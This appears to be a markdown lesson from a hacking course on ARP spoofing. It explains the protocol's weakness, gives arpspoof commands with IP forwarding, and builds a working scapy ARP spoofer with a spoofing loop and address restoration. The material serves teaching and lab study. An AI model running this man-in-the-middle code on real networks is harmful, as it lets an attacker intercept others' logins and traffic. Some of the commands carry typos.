

## 05 ARP Spoofing

### What is ARP Sppofing?
What we will learn
* ARP spoofing allows us to redirect the flow of network packets
* login data, accesses websites, and other transfered data can be intercepted for reading, writing, or deletion
* ARP spoofing falls in the category of _man in the middle_ attacks

Recap: ARP Definition
* ARP = Address Resolution Protocol
* protocol that maps dynamic IP addresses to permanent physical machine addresses (MAC) in a local area network (LAN)
* this mapping is stored in a table
    * both on Windows and Linux, you can access by command: `arp -a`
* it is not very secure as we learned in the last section

ARP Spoofing Visual Guide

|Description|Image|
|----------|:---:|
|Standard Setup of a Local Network|||
|ARP Spoofing via MAC Address||
|Rerouted Data Transfer on Local Network||
|One-Way ARP Spoofing||

Why does it work?
* ARP is not secury protocol: we saw that we can easily change our MAC address
* clients accept responses even if they did not send a request
* clients trust responses without verification (based on the addresses)

### Executing with `arpspoof`
A Demo of ARP Spoofing
* before implementing ARP spoofing, we'll execute a spoofing attack to intercept data using `arpspoof` on Kali Linux
* documentation
    ```
    arpspoof [-i interface] [-t target]

    arpspoof redirects packets from a target host (or all hosts) on the LAN intended for another host on the LAN by forging ARP replies.
    This is an extremely effective way of sniffing traffic on a switch.

    -i interface    Specify the interface to use. 
    -t target       Specify a particular host to ARP poison (if not specified, all hosts on the LAN). 

    ```
* there are two essential steps
	1. we have to fool the target into thinking we're the router
	```
	arpsppof -i eth0 -t <target_ip> <router_ip>
	```
	2. we have to fool the router into thinking we're the target
	```
	arpsppof -i eth0 -t <router_ip> <target_ip>
	```
* example
	```
	sudo arpspoof -i eth0 -t 192.168.238.148 192.168.238.2
	sudo arpspoof -i eth0 -t 192.168.238.2 192.168.238.148 
	```
* next exanble port forwarding, otherwise the target will not receive rerouted packets
	```
	echo 1 > /proc/sys/net/ipv4/ip_forward
	```
* for wifi arpspoofing, you need a wireless adaptor connected to Kali

### Creating an ARP Spoofer
ARP Response
* in the last section, we learned about ARP requests
* now, we'll learn about ARP responses
* let's have another look at the ARP class from scapy
	```
	>>> import scapy.all as scapy
	>>> scapy.ls(scapy.ARP)
	hwtype     : XShortField                         = (1)
	ptype      : XShortEnumField                     = (2048)
	hwlen      : FieldLenField                       = (None)
	plen       : FieldLenField                       = (None)
	op         : ShortEnumField                      = (1)		# 1 = request; 2 = response
	hwsrc      : MultipleTypeField                   = (None)	# source MAC field
	psrc       : MultipleTypeField                   = (None)	# source IP field
	hwdst      : MultipleTypeField                   = (None)	# target MAC  field
	pdst       : MultipleTypeField                   = (None)	# target IP field
	```
	
Step 1: Fooling Target into thinking we're the Router
* build a ARP response for re-directing the flow of packets
	* for 
	```python
	packet = scapy.ARP(
    op=2,   					# ARP response
    pdst="192.168.238.148", 	# windows target ip
    hwdst="00:0c:29:84:ff:b6",  # windows target mac
    psrc="192.168.238.2",   	# pretening we're the router
	)
	scapy.send(packet)
	```

Step 2: Fooling Router into thinking we're the Target
* build a ARP response for re-directing the flow of packets
* since we know the target's IP address, we can user our network-scanner from the previous section to find the associated MAC address
	* import the `scan()` function and remodel it to return a single MAC address
	```python
	from network_scanner import scan
	def get_mac(ip: str) -> str:
    """Scans for an IP address and returns it MAC address"""
		return scan(ip=ip)[0]["mac"]
	```
* because we need to play to roles at once, we need to call the spoof function for the target and for the gateway 

 Step 3: Staying in the Loop
 * if we run the spoof command once, the next packet send over the network will reset the addresses
 * we need to uphold the spoofing for as long as we want to stay the man in the middle
 * implement a `while` loop
 	```python
	def main():
    while True:
        spoof(target_ip=TARGET_IP, spoof_ip=SPOOF_IP)
        spoof(target_ip=SPOOF_IP, spoof_ip=TARGET_IP)
        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        print(f"{timestamp} - Send 2 Packets", end="\r")
        time.sleep(2)
	```
	* `print(..., end="\r")` will make the print-statement write over the same line, keeping output from overflowing the terminal

Step 4: Exiting Gracefully
* using exception handling, we can prevent the `CTRL+C` interuption to throw an error (since it is the expected way to exit)
* we can write a wrapper to decorate the function
	```python
	import functools

	def handle_keyboard_exit(func):
		@functools.wraps(func)
		def wrapper(*args, **kwargs):
			try:
				return func(*args, **kwargs)
			except KeyboardInterrupt:
				sys.exit(0)
		return wrapper
	```

Step 5: Restoring the Addresses
* restore original IP and MAC addresses
	```python
	def restore(destination_ip: str, source_ip: str) -> None:
    packet = scapy.ARP(
        op=2,
        pdst=destination_ip,
        hwdst=get_mac(destination_ip),
        psrc=source_ip,
        # important: we need the router's MAC, default is own
        hwsrc=get_mac(source_ip),
    )
    scapy.send(packet, verbose=False)
	```
* like the spoof function, the target and the gateway must be restored